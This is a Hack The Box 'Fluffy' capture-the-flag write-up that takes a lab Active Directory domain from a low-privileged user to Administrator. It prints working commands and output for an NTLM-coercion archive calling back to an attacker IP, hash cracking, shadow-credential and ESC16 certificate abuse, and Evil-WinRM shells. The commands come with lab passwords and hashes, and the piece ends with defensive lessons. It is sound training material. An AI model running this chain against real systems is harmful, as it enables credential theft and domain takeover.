


HTB Fluffy
Machine / Target Info
| Difficulty | Easy |
|---|---|
| OS | Windows / Active Directory |
| Focus | SMB enumeration, NTLM capture, Shadow Credentials, AD CS ESC16 |
Summary
Fluffy starts as an assumed-breach Windows Active Directory machine. The provided user
j.fleischman has access to SMB and can write to the IT share. After finding
Upgrade_Notice.pdf, I noticed that the notice referenced CVE-2025-24071. I used that
clue to create a malicious archive, trigger an NTLM authentication from another domain user,
crack the captured NetNTLMv2 hash, and move deeper into the domain.
From there, BloodHound showed that p.agila could be added to the Service Accounts group.
This allowed Shadow Credentials abuse against ca_svc and winrm_svc. With the ca_svc
hash, I found the AD CS configuration vulnerable to ESC16, changed the UPN of ca_svc to
administrator, requested a certificate, restored the UPN, authenticated as Administrator
Enumeration
I started with a full TCP port scan to identify the exposed services on the target.
┌──(kali㉿kali)-[~/prac/cpts_prac/]
└─$ nmap -sC -sV -p- 10.129.232.88
Starting Nmap 7.98 ( https://nmap.org ) at 2026-05-25 18:41 -0400
Stats: 0:00:59 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 98.38% done; ETC: 18:42 (0:00:00 remaining)
Nmap scan report for 10.129.232.88
Host is up (0.034s latency).
PORT STATE SERVICE VERSION
53/tcp open domain Simple DNS Plus
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2026-05-26 05:41:37Z)
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: fluffy.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject:
| Subject Alternative Name: DNS:DC01.fluffy.htb, DNS:fluffy.htb, DNS:FLUFFY
| Not valid before: 2026-04-30T16:09:59
|_Not valid after: 2106-04-30T16:09:59
|_ssl-date: 2026-05-26T05:43:07+00:00; +7h00m01s from scanner time.
445/tcp open microsoft-ds?
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
636/tcp open ssl/ldap Microsoft Windows Active Directory LDAP (Domain: fluffy.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-05-26T05:43:06+00:00; +7h00m00s from scanner time.
| ssl-cert: Subject:
| Subject Alternative Name: DNS:DC01.fluffy.htb, DNS:fluffy.htb, DNS:FLUFFY
| Not valid before: 2026-04-30T16:09:59
|_Not valid after: 2106-04-30T16:09:59
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: fluffy.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-05-26T05:43:07+00:00; +7h00m01s from scanner time.
| ssl-cert: Subject:
| Subject Alternative Name: DNS:DC01.fluffy.htb, DNS:fluffy.htb, DNS:FLUFFY
| Not valid before: 2026-04-30T16:09:59
|_Not valid after: 2106-04-30T16:09:59
3269/tcp open ssl/ldap Microsoft Windows Active Directory LDAP (Domain: fluffy.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject:
| Subject Alternative Name: DNS:DC01.fluffy.htb, DNS:fluffy.htb, DNS:FLUFFY
| Not valid before: 2026-04-30T16:09:59
|_Not valid after: 2106-04-30T16:09:59
|_ssl-date: 2026-05-26T05:43:06+00:00; +7h00m00s from scanner time.
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp open mc-nmf .NET Message Framing
49667/tcp open msrpc Microsoft Windows RPC
49689/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
49690/tcp open msrpc Microsoft Windows RPC
49698/tcp open msrpc Microsoft Windows RPC
49714/tcp open msrpc Microsoft Windows RPC
49727/tcp open msrpc Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| smb2-time:
| date: 2026-05-26T05:42:26
|_ start_date: N/A
| smb2-security-mode:
| 3.1.1:
|_ Message signing enabled and required
|_clock-skew: mean: 7h00m00s, deviation: 0s, median: 6h59m59s
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 96.53 seconds
I added the domain and DC hostname to /etc/hosts so tools could resolve the target properly.
┌──(kali㉿kali)-[~/prac/cpts_prac/]
└─$ echo "10.129.232.88 fluffy.htb dc01.fluffy.htb" | sudo tee -a /etc/hostsSMB Enumeration
The box provides the starting credentials j.fleischman / J0elTHEM4n1990!. I first validated
the credentials with NetExec.
┌──(kali㉿kali)-[~/prac/cpts_prac/]
└─$ nxc smb 10.129.232.88 -u 'j.fleischman' -p 'J0elTHEM4n1990!'
SMB 10.129.232.88 445 DC01 [+] fluffy.htb\j.fleischman:J0elTHEM4n1990!
Then I listed the available SMB shares. The interesting result was the IT share because the
user had both read and write access.
┌──(kali㉿kali)-[~/prac/cpts_prac/]
└─$ nxc smb 10.129.232.88 -u 'j.fleischman' -p 'J0elTHEM4n1990!' --shares
Share Permissions Remark
----- ----------- ------
ADMIN$ Remote Admin
C$ Default share
IPC$ READ Remote IPC
IT READ,WRITE
NETLOGON READ Logon server share
SYSVOL READ Logon server share
I connected to the IT share with smbclient and found software folders, zip files, and an
upgrade notice PDF.
┌──(kali㉿kali)-[~/prac/cpts_prac/]
└─$ smbclient -U 'fluffy.htb/j.fleischman%J0elTHEM4n1990!' //10.129.232.88/IT
smb: \> ls
Everything-1.4.1.1026.x64
Everything-1.4.1.1026.x64.zip
KeePass-2.58
KeePass-2.58.zip
Upgrade_Notice.pdf
smb: \> get Upgrade_Notice.pdf
getting file \Upgrade_Notice.pdf of size 169963 as Upgrade_Notice.pdfReviewing Upgrade_Notice.pdf
After connecting to the writable IT share, I found a PDF named Upgrade_Notice.pdf.
I downloaded it locally and reviewed it to see why it had been placed in a shared IT folder.

CVE-2025-24071 under recent vulnerabilities.
The PDF is an internal notice telling the IT department to book a time slot for a system upgrade.
Further down the notice, the recent vulnerabilities table lists CVE-2025-24071. This
vulnerability can be abused with a crafted .library-ms file inside a ZIP archive to
trigger an outbound NTLM authentication. Since the IT share was writable, I used this as the
initial foothold path.
Foothold
Capturing NTLM With CVE-2025-24071
First, I generated a malicious ZIP archive using the CVE-2025-24071 proof of concept. I used my Attacker
IP 10.10.15.35 as the callback address and set the payload filename to malicious.
┌──(kali㉿kali)-[~/prac/cpts_prac/CVE-2025-24071]
└─$ python3 exploit.py -i 10.10.15.35 -f malicious
______ ____ ____ _______ ___ ___ ___ _____ ___ _ _ ___ ______ __
/ |\ \ / / | ____| |__ \ / _ \ |__ \ | ____| |__ \ | || | / _ \ |____ | /_ |
| ,----' \ \/ / | |__ ______ ) | | | | | ) | | |__ ______ ) | | || |_ | | | | / / | |
| | \ / | __| |______/ / | | | | / / |___ \ |______/ / |__ _| | | | | / / | |
| `----. \ / | |____ / /_ | |_| | / /_ ___) | / /_ | | | |_| | / / | |
\______| \__/ |_______| |____| \___/ |____| |____/ |____| |_| \___/ /_/ |_|
Windows File Explorer Spoofing Vulnerability (CVE-2025-24071)
by ThemeHackers
Creating exploit with filename: malicious.library-ms
Target IP: 10.10.15.35
Generating library file...
✓ Library file created successfully
Creating ZIP archive...
✓ ZIP file created successfully
Cleaning up temporary files...
✓ Cleanup completed
Process completed successfully!
Output file: exploit.zip
This created exploit.zip. I uploaded it to the writable IT share and started Responder on
tun0 to listen for incoming NTLM authentication attempts.
┌──(kali㉿kali)-[~/prac/cpts_prac/]
└─$ smbclient -U 'fluffy.htb/j.fleischman%J0elTHEM4n1990!' //10.129.232.88/IT
smb: \> put exploit.zip
sudo responder -I tun0
After a short wait, the target connected back to my listener and Responder captured a NetNTLMv2
hash for FLUFFY\p.agila.
[SMB] NTLMv2-SSP Client : 10.129.232.88
[SMB] NTLMv2-SSP Username : FLUFFY\p.agila
[SMB] NTLMv2-SSP Hash : p.agila::FLUFFY:1dfed51742eb2a40:F467A737982566D10A315FC3B06E396D:01010000000000000063340BC4ECDC012F6DEA44CBB73B320000000002000800590043004100300001001E00570049004E002D00330041005500370045004A004C0053004C0059004E0004003400570049004E002D00330041005500370045004A004C0053004C0059004E002E0059004300410030002E004C004F00430041004C000300140059004300410030002E004C004F00430041004C000500140059004300410030002E004C004F00430041004C00070008000063340BC4ECDC01060004000200000008003000300000000000000001000000002000007CEEC0D6AAF97454E6E603BE13B75636FC2085FD5F6E0F036096D30D0E139F170A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310035002E00330035000000000000000000Cracking The Captured Hash
I saved the captured hash to hash.txt and cracked it with Hashcat mode 5600, which is
used for NetNTLMv2 hashes.
┌──(kali㉿kali)-[~/prac/cpts_prac]
└─$ hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
hashcat (v7.1.2) starting
P.AGILA::FLUFFY:1dfed51742eb2a40:f467a737982566d10a315fc3b06e396d:01010000000000000063340bc4ecdc012f6dea44cbb73b320000000002000800590043004100300001001e00570049004e002d00330041005500370045004a004c0053004c0059004e0004003400570049004e002d00330041005500370045004a004c0053004c0059004e002e0059004300410030002e004c004f00430041004c000300140059004300410030002e004c004f00430041004c000500140059004300410030002e004c004f00430041004c00070008000063340bc4ecdc01060004000200000008003000300000000000000001000000002000007ceec0d6aaf97454e6e603be13b75636fc2085fd5f6e0f036096d30d0e139f170a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310035002e00330035000000000000000000:prometheusx-303This gave me a new valid domain credential:
p.agila : prometheusx-303BloodHound Collection
With a second set of credentials available, I collected domain data with BloodHound to look for privilege escalation paths. Kerberos failed at first because of clock skew, but BloodHound fell back to NTLM and still collected the domain objects.
sudo bloodhound-python -u 'p.agila' -p 'prometheusx-303' -ns 10.129.232.88 -d fluffy.htb -c all
INFO: Found AD domain: fluffy.htb
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication.
INFO: Found 10 users
INFO: Found 54 groups
INFO: Found 3 gpos
INFO: Found 1 computers
INFO: Done in 00M 06S
I marked p.agila user as owned in bloodhound since we have credentials for that user and got the following possible attack chain.

From this BloodHound output, there are a few important details to note:
-
The
p.agilauser is a member of theService Account Managersgroup, which hasGenericAllrights over theService Accountsgroup. -
The
Service Accountsgroup hasGenericWriteover theca_svcuser, andca_svcis also a member of theCert Publishersgroup. -
The
Service Accountsgroup also hasGenericWriteover two other accounts:winrm_svcandldap_svc.
Exploiting The BloodHound Path
To exploit the BloodHound path, I first needed to use the GenericAll permission from the
Service Account Managers group to add p.agila into the Service Accounts group.
Once p.agila became a member of that group, I could abuse the GenericWrite permissions
over the service accounts.
If Kerberos errors such as KRB_AP_ERR_SKEW occur, the Kali clock should be synced with the
target Domain Controller before retrying the Kerberos-based commands.
sudo ntpdate dc01.fluffy.htb
I used bloodyAD to add p.agila to the Service Accounts group.
┌──(kali㉿kali)-[~/prac/cpts_prac/Bloodhound_2]
└─$ bloodyAD -u 'p.agila' -p 'prometheusx-303' -d fluffy.htb --host 10.129.232.88 add groupMember 'service accounts' p.agila
[+] p.agila added to service accountsShadow Credentials Against Service Accounts
After becoming a member of Service Accounts, I used Certipy's Shadow Credentials attack
against ca_svc and winrm_svc. This temporarily adds a new key credential to the target
account, authenticates with the generated certificate, retrieves the account's NT hash, and then
restores the original key credentials.
┌──(kali㉿kali)-[~/prac/cpts_prac]
└─$ certipy-ad shadow auto -username p.agila@fluffy.htb -password 'prometheusx-303' -account ca_svc
Certipy v5.0.4 - by Oliver Lyak (ly4k)
[!] DNS resolution failed: The DNS query name does not exist: FLUFFY.HTB.
[!] Use -debug to print a stacktrace
[*] Targeting user 'ca_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '0ccf33c590d64533b8ddba1b4e4e84ce'
[*] Adding Key Credential with device ID '0ccf33c590d64533b8ddba1b4e4e84ce' to the Key Credentials for 'ca_svc'
[*] Successfully added Key Credential with device ID '0ccf33c590d64533b8ddba1b4e4e84ce' to the Key Credentials for 'ca_svc'
[*] Authenticating as 'ca_svc' with the certificate
[*] Certificate identities:
[*] No identities found in this certificate
[*] Using principal: 'ca_svc@fluffy.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'ca_svc.ccache'
[*] Wrote credential cache to 'ca_svc.ccache'
[*] Trying to retrieve NT hash for 'ca_svc'
[*] Restoring the old Key Credentials for 'ca_svc'
[*] Successfully restored the old Key Credentials for 'ca_svc'
[*] NT hash for 'ca_svc': ca0f4f9e9eb8a092addf53bb03fc98c8┌──(kali㉿kali)-[~/prac/cpts_prac]
└─$ certipy-ad shadow auto -username p.agila@fluffy.htb -password 'prometheusx-303' -account winrm_svc
Certipy v5.0.4 - by Oliver Lyak (ly4k)
[!] DNS resolution failed: The DNS query name does not exist: FLUFFY.HTB.
[!] Use -debug to print a stacktrace
[*] Targeting user 'winrm_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '5b7e28ef042740cb8abcaa1d3bf89e1c'
[*] Adding Key Credential with device ID '5b7e28ef042740cb8abcaa1d3bf89e1c' to the Key Credentials for 'winrm_svc'
[*] Successfully added Key Credential with device ID '5b7e28ef042740cb8abcaa1d3bf89e1c' to the Key Credentials for 'winrm_svc'
[*] Authenticating as 'winrm_svc' with the certificate
[*] Certificate identities:
[*] No identities found in this certificate
[*] Using principal: 'winrm_svc@fluffy.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'winrm_svc.ccache'
[*] Wrote credential cache to 'winrm_svc.ccache'
[*] Trying to retrieve NT hash for 'winrm_svc'
[*] Restoring the old Key Credentials for 'winrm_svc'
[*] Successfully restored the old Key Credentials for 'winrm_svc'
[*] NT hash for 'winrm_svc': 33bd09dcd697600edf6b3a7af4875767At this point, I had two useful service account hashes:
ca_svc : ca0f4f9e9eb8a092addf53bb03fc98c8
winrm_svc : 33bd09dcd697600edf6b3a7af4875767WinRM Access As winrm_svc
Since the machine had WinRM open on port 5985, I used the winrm_svc NT hash with
Evil-WinRM to get an interactive shell. The user flag was located at
C:\Users\winrm_svc\Desktop\user.txt.
┌──(kali㉿kali)-[~/prac/cpts_prac]
└─$ evil-winrm -u 'winrm_svc' -H 33bd09dcd697600edf6b3a7af4875767 -i dc01.fluffy.htb
Evil-WinRM shell v3.9
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\winrm_svc\Documents> whoami
fluffy\winrm_svc
*Evil-WinRM* PS C:\Users\winrm_svc\Documents> cd ..\Desktop
*Evil-WinRM* PS C:\Users\winrm_svc\Desktop> dir
Directory: C:\Users\winrm_svc\Desktop
Mode LastWriteTime Length Name
---- ------------- ------ ----
-ar--- 5/25/2026 10:29 PM 34 user.txt
*Evil-WinRM* PS C:\Users\winrm_svc\Desktop> type user.txt
<user-flag-redacted>Privilege Escalation
AD CS Enumeration
With the ca_svc hash, I enumerated AD CS using Certipy. The output showed the CA
fluffy-DC01-CA and identified ESC16 because the security extension was disabled.
┌──(kali㉿kali)-[~/prac/cpts_prac]
└─$ certipy-ad find -u 'ca_svc' -hashes ca0f4f9e9eb8a092addf53bb03fc98c8 -dc-ip 10.129.232.88 -vulnerable -enabled -stdout
Certificate Authorities
CA Name : fluffy-DC01-CA
DNS Name : DC01.fluffy.htb
Web Enrollment : Disabled
Request Disposition : Issue
Enforce Encryption for Requests : Enabled
Disabled Extensions : 1.3.6.1.4.1.311.25.2
[!] Vulnerabilities
ESC16 : Security Extension is disabled.ESC16 Abuse
To abuse ESC16, I changed the UPN of ca_svc to administrator, requested a certificate as
ca_svc, and then restored the UPN back to its original value. Because the security extension was
disabled, the resulting certificate could be used to authenticate as Administrator.
┌──(kali㉿kali)-[~/prac/cpts_prac]
└─$ certipy-ad account update -username 'p.agila@fluffy.htb' -p 'prometheusx-303' -user ca_svc -upn 'administrator'
[*] Updating user 'ca_svc':
userPrincipalName : administrator
[*] Successfully updated 'ca_svc'┌──(kali㉿kali)-[~/prac/cpts_prac]
└─$ certipy-ad req -u 'ca_svc' -hashes ca0f4f9e9eb8a092addf53bb03fc98c8 -dc-ip 10.129.232.88 -target dc01.fluffy.htb -ca fluffy-DC01-CA -template User
[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator'
[*] Saving certificate and private key to 'administrator.pfx'┌──(kali㉿kali)-[~/prac/cpts_prac]
└─$ certipy-ad account update -username 'p.agila@fluffy.htb' -p 'prometheusx-303' -user ca_svc -upn 'ca_svc@fluffy.htb'
[*] Updating user 'ca_svc':
userPrincipalName : ca_svc@fluffy.htb
[*] Successfully updated 'ca_svc'Authenticating As Administrator
I authenticated with the Administrator certificate and retrieved the Administrator NT hash.
┌──(kali㉿kali)-[~/prac/cpts_prac]
└─$ certipy-ad auth -pfx administrator.pfx -domain fluffy.htb -dc-ip 10.129.232.88
[*] Certificate identities:
[*] SAN UPN: 'administrator'
[*] Using principal: 'administrator@fluffy.htb'
[*] Got TGT
[*] Got hash for 'administrator@fluffy.htb': aad3b435b51404eeaad3b435b51404ee:<administrator-nt-hash>Finally, I used Evil-WinRM with the Administrator hash to get a shell on the Domain Controller.
┌──(kali㉿kali)-[~/prac/cpts_prac]
└─$ evil-winrm -u 'Administrator' -H <administrator-nt-hash> -i dc01.fluffy.htb
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..\Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir
Mode LastWriteTime Length Name
---- ------------- ------ ----
-ar--- 5/25/2026 10:29 PM 34 root.txt
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
<root-flag-redacted>Lessons Learned
Fluffy showed how an assumed-breach foothold can turn into full domain compromise when several small Active Directory weaknesses are chained together. The initial access was limited, but the combination of a writable SMB share, NTLM coercion, weak ACLs, Shadow Credentials, and AD CS misconfiguration created a complete path from a low-privileged user to Administrator.
-
Writable shares should be treated as high-risk.
The
ITshare looked like a normal internal file share, but write access allowed me to upload a crafted archive and trigger an NTLM authentication from another user. -
Internal documents can expose attack paths.
Upgrade_Notice.pdfdirectly pointed towardCVE-2025-24071, which became the clue for the initial NTLM capture. -
BloodHound is critical for understanding privilege relationships.
The important issue was not just the compromised
p.agilaaccount, but what that user could control through group membership and ACL relationships. -
GenericAll and GenericWrite permissions can be enough for privilege escalation.
Adding
p.agilato theService Accountsgroup opened the path to abusing writable attributes on service accounts likeca_svcandwinrm_svc. -
Shadow Credentials are powerful when account attributes are writable.
By abusing
GenericWrite, I was able to add temporary key credentials, authenticate as the target service accounts, and recover their NT hashes without knowing their plaintext passwords. -
AD CS misconfigurations can turn service account access into domain compromise.
The vulnerable certificate authority configuration, specifically
ESC16, allowed the attack path to move fromca_svcto Administrator. - Clock skew can break Kerberos-based tooling. Some Kerberos actions may fail when the attacker machine and domain controller time are not synced, so checking and fixing time skew is an important troubleshooting step.
The main takeaway is that each weakness on its own may look limited, but in Active Directory environments, permissions, certificates, shares, and authentication behavior often connect together. A strong defensive review should look at the full attack path instead of reviewing each misconfiguration in isolation.